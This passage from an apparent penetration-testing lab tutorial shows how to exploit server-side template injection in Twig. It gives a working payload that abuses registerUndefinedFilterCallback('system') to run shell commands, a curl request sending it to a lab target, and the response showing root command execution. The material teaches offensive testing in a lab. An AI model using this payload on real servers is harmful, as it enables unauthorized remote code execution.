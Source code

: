 The next step is to gain remote code execution on the target server. Before moving the payload part, it should be mentioned that Twig has a variable `_self`, which, in simple terms, makes a few of the internal APIs public. This `_self` object has been documented, so we don't need to brute force any variable names (more on that in the next SSTI exploitation examples). Back to the remote code execution part, we can use the `getFilter` function as it allows execution of a user-defined function via the following process:

* Register a function as a filter callback via `registerUndefinedFilterCallback`
* Invoke `_self.env.getFilter()` to execute the function we have just registered

**Payload**

Code: php

```php
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}
```

Let's submit the payload using cURL this time.

**cURL - Interacting with the Target**

SSTI Exploitation Example 1

```shell-session
AIceBear@htb[/htb]$ curl -X POST -d 'name={{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}' http://<TARGET IP>:<PORT>

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN"
"http://www.w3.org/TR/xhtml11/DTD/xhtml11.dtd">
<html>
<head>
  <link rel="stylesheet" type="text/css" href="css/default.css" media="screen"/>
  <title>SSTI</title>
</head>
<body>
<div class="container">
  <div class="main">
    <div class="header">
      <div class="title">
        <h1>I'm here to say hello</h1>
      </div>
    </div>
    <div class="content">
 

<a>
    Who are you?
    <form method='post' action=''>
        <div class="form-group"> 
            <input placeholder="Name" name="name" size=70></input> <button class="btn btn-default" type="submit" name='submit'>Send</button>
       </div> 
    </form>
Hello uid=0(root) gid=0(root) groups=0(root)
Linux serversideattackssstitwig-60784-78bd58b5b-pmvvv 4.19.0-17-cloud-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64 GNU/Linux
serversideattackssstitwig-60784-78bd58b5b-pmvvv
serversideattackssstitwig-60784-78bd58b5b-pmvvv!</a>

        </div>    
        <div class="clearer"><span></span></div>
    </div>
    <div class="footer">Break me!</div>
</div>
</body>
```